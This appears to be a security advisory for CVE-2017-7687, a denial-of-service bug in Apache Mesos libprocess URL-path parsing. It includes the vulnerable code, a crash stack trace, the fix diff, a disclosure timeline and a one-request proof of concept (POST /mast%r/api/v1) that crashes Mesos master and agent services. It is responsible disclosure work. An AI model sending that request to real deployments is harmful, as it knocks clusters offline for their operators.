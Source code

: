```yaml
---
title: "Denial of Service Vulnerability in Libprocess (CVE-2017-7687)"
header:
  overlay_image: /assets/images/cve-2017-7687/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
excerpt: "A vulnerability in the libprocess dependency of Mesos allows a remote
attacker to cause a crash in any Mesos component that includes the library. The
bug resides in the libprocess message parsing functionality and causes the
application to call `abort()` ungracefully when handling malformed libprocess
messages."
tags:
  - vulnresearch
  - mesos
  - denial-of-service
---
```


Severity: High (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H/E:H/RC:C)

Vendor: Apache Software Foundation

Versions Affected:
Apache Mesos <= 1.3.0

## Description

A vulnerability in the libprocess dependency of Mesos allows a remote attacker
to cause a crash in any Mesos component that includes the library. The bug
resides in the libprocess message parsing functionality and causes the
application to call `abort()` ungracefully when handling malformed libprocess
messages.

The vulnerability affects the latest release (1.3.0) of Mesos as well as most
versions before. Importantly, it affects the Master and Agent services that are
exposed over the network. A malicious actor can easily deny allocation of
resources to applications with a single HTTP request to each component.

The bug is found in `parse()` at `libprocess/src/process.cpp` when attempting to
decode URL encoded paths. Particularly, the condition is triggered when trying
to handle the error created when decoding a malformed path.

```c
 795   // Decode possible percent-encoded 'to'.
 796   Try<string> decode = http::decode(request.url.path.substr(1, index));
 797
 798   if (decode.isError()) {
 799     return Failure("Failed to decode URL path: " + decode.get());
 800   }
```

If the `Try` object returned from `decode()` is of the error type, it tries to
return a `Failure` object instantiated with a string concatenated with the
results of the `get()` call found in `./3rdparty/stout/include/stout/try.hpp`.

```c
 73   const T& get() const
 74   {
 75     if (!data.isSome()) {
 76       assert(error_.isSome());
 77       ABORT("Try::get() but state == ERROR: " + error_.get().message);
 78     }
 79     return data.get();
 80   }
 81
 82   T& get()
 83   {
 84     return const_cast<T&>(static_cast<const Try&>(*this).get());
 85   }
```

Since the `Try` object can only represent one of two states: a value or an error
containing the error string, calling `get()` attempts to retrieve a value that
is not present resulting in the stout library aborting the program without
handling the exception. This stems from improper use of the stout API.

A partial stack trace at the time of the crash is as follows:

```shell
ABORT: (../../3rdparty/stout/include/stout/try.hpp:77): Try::get() but state == ERROR: Malformed % escape in 'mast%r': '%r'

Thread 10 "mesos-master" received signal SIGABRT, Aborted.
[Switching to Thread 0x7fffe4b16700 (LWP 19349)]
0x00007fffef3db428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007fffef3db428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007fffef3dd02a in __GI_abort () at abort.c:89
#2  0x00005555555d6d7b in _Abort () at ../../3rdparty/stout/include/stout/abort.hpp:74
#3  0x00005555555d6da9 in _Abort () at ../../3rdparty/stout/include/stout/abort.hpp:80
#4  0x00005555555e3bf9 in Try<std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >, Error>::get () at ../../3rdparty/stout/include/stout/try.hpp:77
#5  0x00005555555e57ce in Try<std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >, Error>::get () at ../../3rdparty/stout/include/stout/try.hpp:84
#6  0x00007ffff6629577 in parse () at ../../../3rdparty/libprocess/src/process.cpp:799
#7  0x00007ffff663647e in process::ProcessManager::handle () at ../../../3rdparty/libprocess/src/process.cpp:2838
#8  0x00007ffff662a3d7 in process::internal::decode_recv () at ../../../3rdparty/libprocess/src/process.cpp:881
```

## Mitigation

The fix for this error is simple. Simply replace the errorenous `get()` call
with `error()`.

```diff
--- /work/mesos-1.3.0/3rdparty/libprocess/src/process.cpp    2017-06-15 22:21:42.413271006 +0000
+++ ../3rdparty/libprocess/src/process.cpp    2017-06-15 21:45:40.993271006 +0000
@@ -796,7 +796,7 @@
   Try<string> decode = http::decode(request.url.path.substr(1, index));

   if (decode.isError()) {
-    return Failure("Failed to decode URL path: " + decode.get());
+    return Failure("Failed to decode URL path: " + decode.error());
   }

   const UPID to(decode.get(), __address__);
```

## Proof of Concept

Sending the following HTTP request causes Mesos master and agent to crash.

```
POST /mast%r/api/v1
Host: 127.0.0.1:5050
User-Agent: libprocess/test
Content-type: application/json

{"type":"GET_VERSION"}'
```

## Credit

This issue was discovered by Lyon Yang (@l0Op3r) and Jeremy Heng (@nn\_amon).

## Timeline

* 12 June 2017 - Discovery of the vulnerability.
* 16 June 2017 - Reporting of the vulnerability to security@apache.org.
* 17 June 2017 - Git
  [commit](https://github.com/apache/mesos/commit/d526de0f735d41db13d85bad87cac49f8e525215)
  fixes the vulnerability upstream.
* 21 June 2017 - Acknowledgement of the vulnerability by the vendor.
* 22 June 2017 - CVE number assigned.
* 26 Sept 2017 - oss-security mailing list
  [email](http://seclists.org/oss-sec/2017/q3/539) sent by vendor.
